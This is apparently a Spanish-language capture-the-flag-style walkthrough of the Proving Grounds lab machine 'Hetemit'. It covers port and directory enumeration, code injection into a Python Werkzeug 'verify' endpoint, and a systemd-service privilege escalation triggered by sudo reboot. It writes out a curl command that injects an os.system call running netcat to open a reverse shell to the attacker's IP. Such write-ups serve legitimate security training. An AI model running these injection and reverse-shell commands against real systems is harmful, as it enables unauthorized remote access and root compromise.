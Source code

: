 ```yaml
---
layout: post
title: Hetemit (Linux - Intermediate) - Proving Grounds Practice
date: 11.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, Privilege Escalation, SUDOERS, SUDO, Dirsearch, Curl, Python, Flask, Werkzeug, Werkzeug httpd 1.0.1 (Python 3.6.8), Werkzeug httpd 1.0.1, Fuzzing, SystemD, systemd, /etc/systemd/system/pythonapp.service, File Permissions, Reboot, /sbin/reboot, Intermediate]
---
```


# Resolución paso a paso de la máquina Hetemit:

## ENUMERACIÓN

### NMAP

- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.103.117 -oG allPorts
```

![image.png](assets/img/post-img/Hetemit/image.png)

- Enumeramos los **SERVICIOS ACTIVOS** en los **PUERTOS** que hemos descubierto:

```bash
nmap -sCV -p21,22,80,139,445,18000,50000 --min-rate 5000 192.168.103.117 -oN targeted
```

![image.png](assets/img/post-img/Hetemit/image%201.png)

![image.png](assets/img/post-img/Hetemit/image%202.png)

- Vemos que hay tres servidores **WEB** diferentes además de otros servicios como **FTP**, **SSH**, **SMB**… Después de un buen rato de enumeración realizando **FUZZING** en contra los tres servidores (**80**, **18000** y **5000**) descubrimos poca cosa..

- Una de las cosas que descubrimos es un panel de **LOGIN** que no nos devuelve ningún mensaje de **ERROR** cuando ponemos una credenciales invalidas, eso nos dificultaría mucho realizar **FUERZA BRUTA** ya que no podemos saber cuando hemos acertado con las credenciales y cuando no. Además también hay un **PANEL DE REGISTRO** pero no podemos registrarnos como nuevos usuarios ya que nos pide un **CÓDIGO DE INVITACIÓN** que no tenemos. También parece que si pudiéramos registrarnos podríamos aprovecharnos del campo de subida de archivos para intentar colar una **WEBSHELL** o una **REVERSE SHELL**, no obstante descartamos esta opción por ahora.

![image.png](assets/img/post-img/Hetemit/image%203.png)

![image.png](assets/img/post-img/Hetemit/image%204.png)

### DIRSEARCH

- Continuamos enumerando  y analizando el puerto **50000** vemos que corre un **SERVIDOR WEB** con PYTHON (**Werkzeug httpd 1.0.1 (Python 3.6.8)**). Realizando **FUZZING** con **DIRSEARCH** vemos que hay un directorio **VERIFY y un directorio GENERATE** que es lo mismo que encontramos cuando accedemos a la página principal por el puerto **50000:**

```bash
dirsearch  -u http://192.168.103.117:50000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x 403,400,404
```

![image.png](assets/img/post-img/Hetemit/image%205.png)

![image.png](assets/img/post-img/Hetemit/image%206.png)

![image.png](assets/img/post-img/Hetemit/image%207.png)

![image.png](assets/img/post-img/Hetemit/image%208.png)

## EXPLOTACIÓN

### Werkzeug httpd 1.0.1 (Python 3.6.8)

- Sabiendo que el servidor corre **PYTHON** la primera opción fue intentar lanzar alguna **REVERSE SHELL** directamente desde **CURL** pero no hubo manera. Sabemos que el formato en el que nos muestra la información es **JSON** o se parece mucho, incluso podemos pensar que estamos interactuando con alguna **API**. Al final realizamos una petición por **POST** con **CURL** pasándole con el parámetro **--DATA** la información, en este caso **CODE** nos hace pensar que está ejecutando código por detrás y debe ser con **PYTHON**, así que intentamos hacer una ejecución a nivel de sistema con **OS.SYSTEM** y lanzarnos la **SHELL**, y parece que funcionó:

```bash
curl -i http://192.168.243.117:50000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```

![image.png](assets/img/post-img/Hetemit/image%209.png)

- Nos ponemos en escucha con **NC** por el puerto **18000**:

```bash
nc -lvnp 18000
```

![image.png](assets/img/post-img/Hetemit/image%2010.png)

## TRATAMIENTO DE LA TTY

- Realizamos el tratamiento de la **TTY** para poder trabajar más cómodos desde una **SHELL INTERACTIVA**:

```bash
script /dev/null -c bash

control+z

stty raw -echo; fg

reset xterm

export TERM=xterm-256color

export SHELL=bash

stty rows 52 columns 214 
```

- Una vez dentro de la máquina podemos acceder al directorio personal del usuario **CMEEKS** y leer la primera **FLAG**:

![image.png](assets/img/post-img/Hetemit/image%2011.png)

## ESCALADA DE PRIVILEGIOS

### SYSTEMD + SUDO REBOOT

- En este caso descubrimos que teníamos permisos en “**/etc/systemd/system/pythonapp.service**”.

![image.png](assets/img/post-img/Hetemit/image%2012.png)

> **SYSTEMD** es un sistema de **INICIALIZACIÓN** de **LINUX**. Es el proceso que se ejecuta con el **PID** número **1**, por lo que se arranca automáticamente cada vez que se arranque el sistema.
> 

- Al acceder al directorio y analizar el archivo descubrimos que como **GRUPO** estaba el usuario bajo el que estábamos corriendo, por lo que tenemos derechos de **ESCRITURA** sobre ese archivo. Al acceder al contenido vemos que en la variable **ExecStart**  ejecuta **FLASK** y podemos ver también en la variable **USER** que lo ejecuta bajo el usuario en el que estamos.

```bash
/etc/systemd/system/pythonapp.service
```

![image.png](assets/img/post-img/Hetemit/image%2013.png)

> Hay que tener en cuenta que para  que este método sea efectivo debemos poder reiniciar la máquina con **REBOOT**. En este caso, el usuario bajo el que nos encontramos puede ejecutar con permisos de **SUDO** el **“/SBIN/REBOOT”**.
> 

```bash
sudo -l
```

![image.png](assets/img/post-img/Hetemit/image%2014.png)

- Como tenemos privilegios de escritura sobre este archivo y sabemos que si reiniciamos la máquina con **REBOOT** se ejecutará, vamos a modificar el **SCRIPT** para que en lugar de **FLASK** nos lance una **REVERSE SHELL** y en lugar de hacerlo bajo nuestro usuario lo haga directamente como el usuario **ROOT**:
- Modificamos el **SCRIPT** para que nos lance la **REVERSE SHELL** bajo el usuario **ROOT** y modificamos también el tiempo para que sea un poco más de **15 segundos**, en este caso puse **60 segundos**:

![image.png](assets/img/post-img/Hetemit/image%2015.png)

- Reiniciamos el sistema como **SUDO** y nos ponemos en escucha con **NC** en nuestra máquina atacante por el puerto **50000**:

```bash
# Reiniciamos la máquina víctima mientras estamos en escucha con NC en nuestra máquina atacante:
sudo reboot
```

```bash
nc -lvnp 50000
```

![image.png](assets/img/post-img/Hetemit/image%2016.png)

![image.png](assets/img/post-img/Hetemit/image%2017.png)